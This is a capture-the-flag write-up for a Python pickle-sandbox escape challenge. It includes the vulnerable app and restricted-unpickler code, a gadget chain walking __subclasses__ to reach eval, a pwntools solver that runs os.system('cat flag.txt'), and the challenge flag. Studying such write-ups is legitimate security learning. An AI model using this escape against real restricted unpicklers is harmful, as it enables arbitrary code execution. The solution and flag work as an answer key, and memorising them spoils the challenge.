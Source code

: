 # [We're Pickle Phreaks Revenge](#were_pickle_phreaks_revenge)

![category](https://img.shields.io/badge/category-crypto-orange)

### [__Description__](#description)

* After you humiliated them, the Phreaks have changed their app to make it more secure. You won't make a fool of them again. Or will you?

### [__Objective__](#objective)

* The objective is to escape from a pickle sandbox using builtin internal methods.

### [__Difficulty__](#difficulty)

* `medium`

### [__Flag__](#flag)

* `HTB{Y0U_7h1nK_JUs7_ch3ck1n9_S0M3_m0DUL3_NAm3s_1s_3n0u9H_70_s70p_93771n9_Pwn3d??}`

### [__Downloadables__](#downloadables)

* `app.py`: The main code of the application
* `sandbox.py`: The pickle sandbox

### [__Attack__](#attack)

### Analysis

#### Analyzing the difference from the previous version

We can see the source is mostly the same from the previous easy version. The `app.py` file remains exactly the same, and `sandbox.py` has one more addition to the `UNSAFE_NAMES` list, which makes sense considering how the previous challenge was exploited.

```python
UNSAFE_NAMES = ['__builtins__', 'random']
```

Now we have even less options, considering, most other internal values are mostly standard functions. So now we need to find something more internal which we can use to escape with.

### Solution

#### Finding more internal gadgets

If we search a bit for pickle sandbox escape, we can find [this](https://youtu.be/BAt8M2D77TQ?si=tX8mtBQNqI6hy7bL&t=1440) talk. In it, [splitline](https://twitter.com/_splitline_) documents a more general exploit, which uses more builtin methods that enable code execution. Essentially, it takes a typical pyjail payload, and transforms it to a pickle context. 

```python
obj.__class__.__base__.__subclasses__()[137].__init__.__globals__['__builtins__']['eval']
```

becomes

```python
setattr = GLOBAL("<ALLOWED_MODULE>", "__setattr__")
subclasses = GLOBAL(
 "<ALLOWED_MODULE>",
 "obj.__class__.__base__.__subclasses__"
)()
setattr("subclasses", subclasses)
gadget = GLOBAL(
 "<ALLOWED_MODULE>",
 "subclasses.__getitem__"
)(<INDEX>)
setattr("gadget", gadget)
eval = GLOBAL(
 "<ALLOWED_MODULE>",
 "gadget.__init__.__builtins__.__getitem__"
)('eval')
```

Some notes. In our exploit, we will obviously use `app` as the `<ALLOWED_MODULE>`. After playing with it, a useful gadget can be found at index 133. After that, we can just call `eval` with an internal `__import__` module. The `setattr` essentially performs a `obj.attr_name = attr`. In our case, the `obj` is the allowed module `app`, so that we can use it in every declaration. Note `__setattr__` works like this in python 3.8, and not in newer versions. With these, we can craft
our payload, again using the `pickora` module (which was actually developed by spitline).

### [__Challenge Code__](#challenge_code)

The codes of 'app.py` and `sandbox.py` are presented below respectively:

```python
from sandbox import unpickle, pickle
import random

members = []

class Phreaks:
    def __init__(self, hacker_handle, category, id):
        self.hacker_handle = hacker_handle
        self.category = category
        self.id = id

    def display_info(self):
        print('================ ==============')
        print(f'Hacker Handle    {self.hacker_handle}')
        print('================ ==============')
        print(f'Category         {self.category}')
        print(f'Id               {self.id}')
        print()

def menu():
    print('Phreaks member registration v2')
    print('1. View current members')
    print('2. Register new member')
    print('3. Exit')

def add_existing_members():
    members.append(pickle(Phreaks('Skrill', 'Rev', random.randint(1, 10000))))
    members.append(pickle(Phreaks('Alfredy', 'Hardware', random.randint(1, 10000))))
    members.append(pickle(Phreaks('Suspicious', 'Pwn', random.randint(1, 10000))))
    members.append(pickle(Phreaks('Queso', 'Web', random.randint(1, 10000))))
    members.append(pickle(Phreaks('Stackos', 'Blockchain', random.randint(1, 10000))))
    members.append(pickle(Phreaks('Lin', 'Web', random.randint(1, 10000))))
    members.append(pickle(Phreaks('Almost Blood', 'JIT', random.randint(1, 10000))))
    members.append(pickle(Phreaks('Fiasco', 'Web', random.randint(1, 10000))))
    members.append(pickle(Phreaks('Big Mac', 'Web', random.randint(1, 10000))))
    members.append(pickle(Phreaks('Freda', 'Forensics', random.randint(1, 10000))))
    members.append(pickle(Phreaks('Karamuse', 'ML', random.randint(1, 10000))))

def view_members():
    for member in members:
        try:
            member = unpickle(member)
            member.display_info()
        except Exception as e:
            print('Invalid Phreaks member', e)

def register_member():
    pickle_data = input('Enter new member data: ')
    members.append(pickle_data)

def main():
    add_existing_members()
    while True:
        menu()
        try:
            option = int(input('> '))
        except ValueError:
            print('Invalid input')
            print()
            continue
        if option == 1:
            view_members()
        elif option == 2:
            register_member()
        elif option == 3:
            print('Exiting...')
            exit()
        else:
            print('No such option')
        print()

if __name__ == '__main__':
    main()
```

```python
from base64 import b64decode, b64encode 
from io import BytesIO
import pickle as _pickle

ALLOWED_PICKLE_MODULES = ['__main__', 'app']
UNSAFE_NAMES = ['__builtins__', 'random']

class RestrictedUnpickler(_pickle.Unpickler):
    def find_class(self, module, name):
        print(module, name)
        if (module in ALLOWED_PICKLE_MODULES and not any(name.startswith(f"{name_}.") for name_ in UNSAFE_NAMES)):
            return super().find_class(module, name)
        raise _pickle.UnpicklingError()
    
def unpickle(data):
    return RestrictedUnpickler(BytesIO(b64decode(data))).load()
    
def pickle(obj):
    return b64encode(_pickle.dumps(obj))
```

### [__Solver__](#solver)

```python
from base64 import b64encode, b64decode
from pickora import Compiler
from pwn import *

def send_payload(payload):
    payload = b64encode(compiler.compile(payload))
    io.recvuntil(b'> ')
    io.sendline(b'2')
    io.recvuntil(b': ')
    io.sendline(payload)

def get_flag():
    io.recvuntil(b'> ')
    io.sendline(b'1')
    io.interactive()
    io.recvuntil(b'HTB{')
    flag = io.recvuntil(b'}')
    return b'HTB{' + flag

def pwn():
    payload = b'_setattr = GLOBAL("app", "__setattr__");'
    payload += b'subclasses = GLOBAL("app", "members.__class__.__base__.__subclasses__")();'
    payload += b'_setattr("subclasses", subclasses);'
    payload += b'gadget = GLOBAL("app", "subclasses.__getitem__")(133);'
    payload += b'_setattr("gadget", gadget);'
    payload += b'builtins = GLOBAL("app", "gadget.__init__.__globals__.__getitem__")("__builtins__");'
    payload += b'_setattr("builtins", builtins);'
    payload += b'eval = GLOBAL("app", "builtins.__getitem__")("eval");'
    payload += b'eval(\'__import__("os").system("cat flag.txt")\')'
    send_payload(payload)
    flag = get_flag()
    print(flag)

if __name__ == '__main__':
    ip = '127.0.0.1'
    port = 1337
    io = remote(ip, port)
    #io = process(['python', 'app.py'])
    compiler = Compiler()
    pwn()
```

